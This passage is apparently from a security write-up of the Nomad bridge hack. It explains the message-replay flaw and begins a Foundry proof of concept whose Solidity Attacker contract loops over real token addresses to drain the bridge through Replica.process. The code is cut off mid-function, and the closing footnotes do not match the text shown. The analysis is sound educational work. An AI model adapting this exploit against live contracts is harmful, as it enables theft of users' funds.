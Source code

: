 The input message encodes various different parameters in a given format. Among those, for a message to unlock funds from the bridge, there’s the recipient address. So after the first attacker executed a [successful transaction](https://dashboard.tenderly.co/tx/mainnet/0xa5fe9d044e4f3e5aa5bc4c0709333cd2190cba0f4e7f16bcf73f49f83e4a5460), anyone that knew how to decode the message format could simply change the recipient address and replay the attack transaction, this time with a different message that would give profit to the new address.

## Proof of Concept

Now that we understand the vulnerability that compromised the Nomad protocol, we can formulate our own proof of concept (PoC). We will craft specific messages to call the `process` function in `Replica` function once for each specific token we want to drain, leading to protocol insolvency in just one single transaction.

We’ll start by selecting an RPC provider with archive access. For this demonstration, we will be using [the free public RPC aggregator](https://www.ankr.com/rpc/eth/) provided by Ankr. We select the block number 15259100 as our fork block, 1 block before the first hack transaction.

Our PoC needs to run through a number of steps on a single transaction to be successful. Here is a high-level overview of what we will be implementing in our attack PoC:

1. Select a given ERC-20 token and check the balance of the Nomad ERC-20 bridge contract.
2. Generate a message payload with the right parameters to unlock funds, among which our attacker address as the recipient and the full token balance as the amount of funds to be unlocked.
3. Call the vulnerable process function, which will lead to a transfer of tokens to the recipient address.
4. Loop through various ERC-20 tokens with a relevant presence on the bridge’s balance to drain those funds in the same fashion.

Let’s code one step at a time, and eventually look at how the entire PoC looks. We will be using Foundry.

## The Attack

```
pragma solidity ^0.8.13;
 
import "@openzeppelin/token/ERC20/ERC20.sol";
 
interface IReplica {
   function process(bytes memory _message) external returns (bool _success);
}
 
contract Attacker {
   address constant REPLICA = 0x5D94309E5a0090b165FA4181519701637B6DAEBA;
   address constant ERC20_BRIDGE = 0x88A69B4E698A4B090DF6CF5Bd7B2D47325Ad30A3;
 
   // tokens
   address [] public tokens = [
       0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599, // WBTC
       0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2, // WETH
       0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, // USDC
       0xdAC17F958D2ee523a2206206994597C13D831ec7, // USDT
       0x6B175474E89094C44Da98b954EedeAC495271d0F, // DAI
       0x3432B6A60D23Ca0dFCa7761B7ab56459D9C964D0, // FRAX
       0xD417144312DbF50465b1C641d016962017Ef6240  // CQT
   ];
 
   function attack() external {
       for (uint i = 0; i < tokens.length; i++) {
           address token = tokens[i];
           uint256 amount_bridge = IERC20(token).balanceOf(ERC20_BRIDGE);
 
           bytes memory payload = genPayload(msg.sender, token, amount_bridge);
           bool success = IReplica(REPLICA).process(payload);
```

[^1]: Skim() :
[^2]: Internal function calls are invisible to the blockchain since they don't create any new transactions or blocks. In this way, they cannot be read by other smart contracts or show up in the blockchain transaction history.